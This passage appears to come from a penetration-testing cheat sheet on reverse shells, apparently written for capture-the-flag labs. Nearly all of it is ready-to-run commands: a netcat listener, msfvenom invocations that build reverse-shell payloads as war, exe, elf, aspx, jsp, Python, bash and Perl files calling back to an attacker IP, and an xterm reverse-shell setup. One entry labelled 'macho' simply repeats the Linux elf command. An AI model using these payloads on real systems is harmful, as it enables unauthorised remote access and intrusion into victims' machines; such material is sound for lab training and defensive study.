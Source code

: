 ```bash
nc -lvnp 1337
```

#### MSF Reverse Shell<a name='msf'></a>
```bash
# on the attacker machine to generate files which will yield shell rather than msf session
# transfer the generated file to the victim machine in order to obtain the shell, change the IP and Port 

# war file
msfvenom -p java/jsp_shell_reverse_tcp LHOST=10.10.14.32 LPORT=1337 -f war > reverse.war

# exe file
msfvenom -p windows/shell_reverse_tcp LHOST=10.10.14.32 LPORT=1337 -f exe > reverse.exe

# elf file
msfvenom -p linux/x86/shell_reverse_tcp LHOST=10.10.14.32 LPORT=1337 -f elf >reverse.elf

# macho file
msfvenom -p linux/x86/shell_reverse_tcp LHOST=10.10.14.32 LPORT=1337 -f elf >reverse.elf

# aspx file
msfvenom -p windows/shell_reverse_tcp LHOST=10.10.14.32 LPORT=1337 -f aspx > exploit.aspx

# jsp file
msfvenom -p java/jsp_shell_reverse_tcp LHOST="10.10.14.32" LPORT=1337 -f raw > shell.jsp

# python file
msfvenom -p cmd/unix/reverse_python LHOST="10.10.14.32" LPORT=1337 -f raw > shell.py

# sh file
msfvenom -p cmd/unix/reverse_bash LHOST="10.10.14.32" LPORT=1337 -f raw > shell.sh

# perl file
msfvenom -p cmd/unix/reverse_perl LHOST="10.10.14.32" LPORT=1337 -f raw > shell.pl

# after transferring
# on the attacker machine
# syntax: nc -lvnp {port}
nc -lvnp 1337
```

#### XTerm <a name='xt'></a>
```bash
# on the victim machine
xterm -display 10.10.14.32:1
Xnest :1
xhost +targetip

# on the attacker machine 
nc -lvnp 6001
```
